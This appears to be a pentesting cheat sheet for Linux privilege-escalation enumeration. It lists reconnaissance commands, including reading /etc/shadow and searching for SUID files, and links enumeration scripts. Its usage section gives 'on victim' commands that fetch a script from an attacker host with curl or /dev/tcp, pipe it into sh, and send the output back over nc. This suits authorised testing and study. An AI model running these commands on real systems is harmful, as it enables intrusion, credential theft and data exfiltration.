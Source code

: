 ## manual

- user-related
    - whoami
    - id
    - id user
    - who
    - w
    - last
- system-related
    - uname -a
    - lsb_release -a
    - cat /proc/version
    - cat /etc/issue
    - hostnamectl, hostname
    - ps -ef, ps aux, ps axjf
    - top -n 1
- network-related
    - ip a, ifconfig
    - ip route, route
    - ip neigh, arp -a
    - netstat -a, netstat -l, netstat -at, netstat -au
    - netstat -s
    - netstat -ano
- priviledge-related
    - sudo -l
    - getcap -r / 2>/dev/null
    - cat /etc/passwd
    - cat /etc/shadow
- usage-related
    - ls -liah
    - history
- schedule-joibs
    - cat /etc/crontab
- environment
    - echo $PATH
    - env
    - which python gcc ruby perl find netcat nc wget curl ftp tmux screen 2>/dev/null
- find / -perm -u=s -type f 2>/dev/null
- find / -writable -type -f -not -path “\*path\*” 2>/dev/null
- find / -group grp -type f 2>/dev/null
- cat /etc/fstab

## script

- [PEASS-ng](https://github.com/carlospolop/PEASS-ng)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- [linux-exploit-suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)
- [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
- [unix-privesc-check](https://github.com/pentestmonkey/unix-privesc-check)

### how to use

```bash
# from network
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# from local, curl
sudo python -m http.server 80 # on host
curl <host>/linpeas.sh | sh   # on victim

# by nc
sudo nc -q 5 -lvnp 80 < linpeas.sh # on host
cat < /dev/tcp/<host>/80 | sh      # on victim
```

```bash
# execute on victim and send output back to host
nc -lvnp 8899 | tee linpeas.out                # on host
curl <host>/linpeas.sh | sh | nc <host> 8899   # on victim
cat < /dev/tcp/<host>/80 | sh | nc <host> 8899 # on victim
```